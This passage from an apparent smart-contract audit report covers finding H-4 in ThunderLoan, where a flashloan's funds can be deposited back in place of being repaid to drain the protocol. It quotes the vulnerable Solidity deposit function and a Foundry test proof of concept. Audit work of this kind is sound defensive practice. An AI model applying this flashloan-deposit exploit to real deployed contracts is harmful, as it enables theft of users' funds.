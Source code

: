 
**Recommended Mitigation:** Consider using a different price oracle mechanism, like a Chainlink price feed with a Uniswap TWAP fallback oracle.

## [H-4] By calling a flashloan and then ThunderLoan::deposit instead of ThunderLoan::repay users can steal all funds from the protocol

**Description:** The `deposit` function in `ThunderLoan.sol` allows users to deposit funds into the protocol. However, the `deposit` function does not check if the user has taken out a flashloan. This allows users to take out a flashloan and then deposit the funds back into the protocol, effectively stealing all the funds from the protocol.

```javascript
    function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);
        uint256 calculatedFee = getCalculatedFee(token, amount);
        assetToken.updateExchangeRate(calculatedFee);
        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```

**Impact:** This bug allows users to steal all funds from the protocol.

**Proof of concept**

```javascript
    function testUseDepositeInsteadOfRepayToStealFunds()
        public
        setAllowedToken
        hasDeposits
    {
        vm.startPrank(user);
        uint256 amountToBorrow = 50e18;
        uint256 fee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);
        DepositOverRepay depositOverRepay = new DepositOverRepay(
            address(thunderLoan)
        );
        tokenA.mint(address(depositOverRepay), fee);

        thunderLoan.flashloan(
            address(depositOverRepay),
            tokenA,
            amountToBorrow,
            ""
        );
        depositOverRepay.redeemMoney();
        vm.stopPrank();
        assert(tokenA.balanceOf(address(depositOverRepay)) > 50e18 + fee);
    }

```
